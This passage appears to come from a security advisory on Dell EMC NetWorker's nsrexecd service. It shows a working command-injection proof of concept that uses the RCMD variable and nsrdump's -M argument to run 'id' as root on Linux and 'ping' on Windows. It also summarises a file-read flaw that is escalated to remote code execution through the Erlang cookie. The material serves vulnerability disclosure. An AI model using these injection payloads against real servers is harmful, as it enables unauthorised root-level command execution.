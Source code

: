 ```
[root@networker-client ~]# export RCMD="nsrdump -m root@localhost -o test -M 'id;'"
[root@networker-client ~]# nsrexec -c 52.86.24.194
uid=0(root) gid=0(root) groups=0(root)
sh: -s: command not found
89477 1613665920 5 1 2 3015612224 4388 0 ip-172-31-50-5.ec2.internal nsrdump SYSTEM critical 23
error sending mail: %s. 1 0 117 id; -s "Report Home 1.0 ip-172-31-50-5.ec2.internal161358023617231505"
root@localhost < "/nsr/applogs/rh/randomstuff"
```

##### Validating on Windows

Windows hosts are also affected, here we demonstrate it by executing `ping`. First we set the command via `RCMD`, this time using a `&` separator to inject our command:

```
export RCMD="nsrdump -m root@localhost -o testy -M 'ping -n 3 192.168.121.238 &'"
nsrexec -c networker-win
```

As we can see from the Process Monitor screenshot below, the `nsrexecd` daemon launched `nsrdump`, which in turn launched `cmd.exe` with our injected command:

{:.foo}
![windows]({{site.url}}/assets/nsrexecd_proc_dump.png)

Below is the nsrdump full command line:

```
"C:\Program Files\EMC NetWorker\nsr\bin\nsrdump.exe" -m root@localhost -o testy -M "ping -n 3 192.168.121.238 &"
```

And here is the cmd.exe full command line:

```
C:\Windows\system32\cmd.exe /c ping -n 3 192.168.121.238 & -s
"Report Home 1.0 networker-win1613730535fe8079263bc08dd78858"
root@localhost < "C:\Program Files\EMC NetWorker\nsr\applogs\rh\testy"
```

---

### Arbitrary File Read to RCE with nsrarchive, nsrpolicy, nsr_render_log

#### Summary

The 'nsrpolicy' command exposed by Dell EMC Networker Server nsrexecd service is
affected by an information leak vulnerability. By abusing this flaw and existing
weaknesses in the oldauth/nsrauth authentication mechanisms, an unauthenticated
attacker could read sensitive files from any host exposing the nsrexecd service.

On Dell EMC Networker Server, this information leak can be turned into remote command
execution by taking advantage of Erlang runtime's presence. Specifically, an attacker
can obtain the Erlang cookie value from a file stored on the remote system and use it
to establish an authenticated session to the remote Erlang daemon, therefore gaining
the ability to execute arbitrary commands on the remote system with elevated privileges.
